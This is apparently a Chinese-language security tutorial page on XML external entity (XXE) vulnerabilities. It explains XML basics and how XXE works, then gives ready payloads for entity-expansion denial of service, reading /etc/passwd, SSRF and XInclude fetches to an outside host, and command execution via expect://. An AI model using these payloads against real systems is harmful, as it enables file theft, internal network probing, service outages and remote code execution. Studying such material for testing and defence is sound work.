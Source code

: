 XXE
======================================

XML基础
--------------------------------------
XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。


XXE
--------------------------------------
当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。


攻击方式
--------------------------------------

拒绝服务攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY a0 "dos" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
    ]>
    <data>&a2;</data>

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。
具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。


文件读取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <data>&file;</data>

SSRF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version="1.0"?>
    <!DOCTYPE data SYSTEM "http://publicServer.com/" [
    <!ELEMENT data (#ANY)>
    ]>
    <data>4</data>

RCE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version="1.0"?>
    <!DOCTYPE GVI [ <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "expect://id" >]>
    <catalog>
       <core id="test101">
          <description>&xxe;</description>
       </core>
    </catalog>

XInclude
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    <?xml version='1.0'?>
    <data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://publicServer.com/file.xml"></xi:include></data>


参考链接
--------------------------------------
- `XML教程 <http://www.w3school.com.cn/xml/>`_
- `未知攻焉知防 XXE漏洞攻防 <https://security.tencent.com/index.php/blog/msg/69>`_
- `XXE 攻击笔记分享 <http://www.freebuf.com/articles/web/97833.html>`_
